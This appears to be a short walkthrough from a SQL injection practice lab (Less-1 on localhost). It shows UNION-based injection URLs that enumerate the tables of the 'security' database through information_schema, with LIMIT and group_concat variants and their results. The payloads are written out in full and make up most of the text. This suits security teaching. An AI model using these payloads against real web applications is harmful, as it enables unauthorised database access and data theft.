



Showing tables in security
a) Showing the first table.
QUERY:
select table_name from information_schema.tables where table_schema="security";
URL: http://localhost/Less-1/?id=-1' UNION select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+
or: http://localhost/Less-1/?id=-1' UNION select 1,table_name,3 from information_schema.tables where table_schema=database() --+

Result: We can see the first table name “email”.
b) Showing other tables.
URL: http://localhost/Less-1/?id=-1' UNION select 1,table_name,3 from information_schema.tables where table_schema=’security’ limit 1,1 --+

Result: We see the table “referers”.
NOTE: If we change the first parameter of “limit” to 2 or 3 we'll see the other tables.
c) Showing all the tables in “security”.
URL: http://localhost/Less-1/?id=-1' UNION select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security" --+

Result: We see all the tables name in a string. “emails,referers,uagents,users”